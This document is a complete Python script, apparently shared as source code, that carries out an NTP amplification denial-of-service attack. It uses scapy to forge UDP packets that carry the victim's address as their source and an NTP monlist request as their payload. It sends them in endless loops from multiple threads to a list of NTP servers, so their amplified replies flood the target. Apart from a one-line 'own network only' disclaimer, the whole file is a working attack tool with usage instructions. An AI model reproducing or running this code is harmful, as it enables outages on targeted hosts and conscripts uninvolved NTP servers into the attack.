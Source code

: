 #!/usr/bin/env python
from scapy.all import *
import sys
import threading
import time
import random	# For Random source port
#NTP Amp DOS attack
#by DaRkReD
#usage ntpdos.py <target ip> <ntpserver list> <number of threads> ex: ntpdos.py 1.2.3.4 file.txt 10
#FOR USE ON YOUR OWN NETWORK ONLY

# Random source port added by JDMoore0883

#packet sender
def deny():
	#Import globals to function
	global ntplist
	global currentserver
	global data
	global target
	ntpserver = ntplist[currentserver] #Get new server
	currentserver = currentserver + 1 #Increment for next 
	packet = IP(dst=ntpserver,src=target)/UDP(sport=random.randint(2000,65535),dport=123)/Raw(load=data) #BUILD IT
	send(packet,loop=1) #SEND IT

#So I dont have to have the same stuff twice
def printhelp():
	print ("NTP Amplification DOS Attack")
	print ("By DaRkReD")
	print ("Usage ntpdos.py <target ip> <ntpserver list> <number of threads>")
	print ("ex: ex: ntpdos.py 1.2.3.4 file.txt 10")
	print ("NTP serverlist file should contain one IP per line")
	print ("MAKE SURE YOUR THREAD COUNT IS LESS THAN OR EQUAL TO YOUR NUMBER OF SERVERS")
	exit(0)

try:
	if len(sys.argv) < 4:
		printhelp()
	#Fetch Args
	target = sys.argv[1]

	#Help out idiots
	if target in ("help","-h","h","?","--h","--help","/?"):
		printhelp()

	ntpserverfile = sys.argv[2]
	numberthreads = int(sys.argv[3])
	#System for accepting bulk input
	ntplist = []
	currentserver = 0
	with open(ntpserverfile) as f:
	    ntplist = f.readlines()

	#Make sure we dont out of bounds
	if  numberthreads > int(len(ntplist)):
		print ("Attack Aborted: More threads than servers")
		print ("Next time dont create more threads than servers")
		exit(0)

	#Magic Packet aka NTP v2 Monlist Packet
	data = "\x17\x00\x03\x2a" + "\x00" * 4

	#Hold our threads
	threads = []
	print ("Starting to flood: "+ target + " using NTP list: " + ntpserverfile + " With " + str(numberthreads) + " threads")
	print ("Use CTRL+C to stop attack")

	#Thread spawner
	for n in range(numberthreads):
	    thread = threading.Thread(target=deny)
	    thread.daemon = True
	    thread.start()

	    threads.append(thread)

	#In progress!
	print ("Sending...")

	#Keep alive so ctrl+c still kills all them threads
	while True:
		time.sleep(1)
except KeyboardInterrupt:
	print("Script Stopped [ctrl + c]... Shutting down")
	# Script ends here
